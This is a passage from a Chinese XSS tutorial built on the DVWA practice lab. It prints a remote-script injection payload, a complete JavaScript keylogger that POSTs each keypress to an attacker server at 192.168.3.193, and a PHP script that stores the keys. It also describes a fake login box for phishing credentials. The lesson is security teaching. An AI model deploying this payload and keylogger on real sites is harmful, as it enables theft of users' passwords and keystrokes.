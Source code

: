 首先我们来看看如何实现按键记录。

我们仍然选择DVWA的XSS(DOM)靶场做测试，只需要更换payload即可，将payload设置为：

```javascript
<script src=http://192.168.3.193/keylogger.js></script>

```

这段代码可以去调用远程地址中的JavaScript文件，使得keylogger.js中的代码被执行。这里的keylogger.js的内容为：

```javascript
document.onkeypress = function(evt) {
    evt = evt || window.event;
    key = String.fromCharCode(evt.charCode);
    if(key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.3.193/keylogger.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}

```

它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过POST方式上传到攻击者用来存储按键记录的服务器上。其中keylogger.php的代码为：

```php
<?php
  $key=$_POST['key'];
  $logfile="keylog.txt";
  $fp = fopen($logfile,"a");
  fwrite($fp,$key);
  fclose($fp);
?>

```

它可以将接收到的key记录到keylog.txt文件中，**这样就能实现按键记录的功能了**。

我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在keylog.txt中。

![](https://static001.geekbang.org/resource/image/07/a0/07b42f2ce349e258f7390b6861760fa0.png?wh=1145x259)

我们还可以将这个按键记录做一下加工，使得用户可以输入一些敏感信息例如账号、密码等信息。我们可以用JavaScript创建出一个伪造的登陆框，这样用户很可能会上当，在这里输入自己的用户名和密码，我们可以利用之前的按键记录获取到这些信息。**这种行为就是钓鱼攻击**，因为它本质上和钓鱼非常类似，在钓鱼中我们就会利用鱼饵，将锋利的鱼钩伪装成美味的食物，这样就能骗得鱼儿上钩。

相信到这里你已经明白了如何用XSS攻击来实现按键记录以及钓鱼。接下来，让我们学习用XSS实现广告植入的方式吧。

### 广告植入

想要做广告植入，那我们需要用存储型XSS注入，这样就可以使得所有访问受攻击页面的用户都会看到广告。

这里我们选择用DVWA的存储型XSS作为示例，如下图，这里需要输入一个姓名和消息。

![图片](https://static001.geekbang.org/resource/image/5c/78/5cfbd6580574dc0b4b41acb9471a8278.png?wh=904x289)
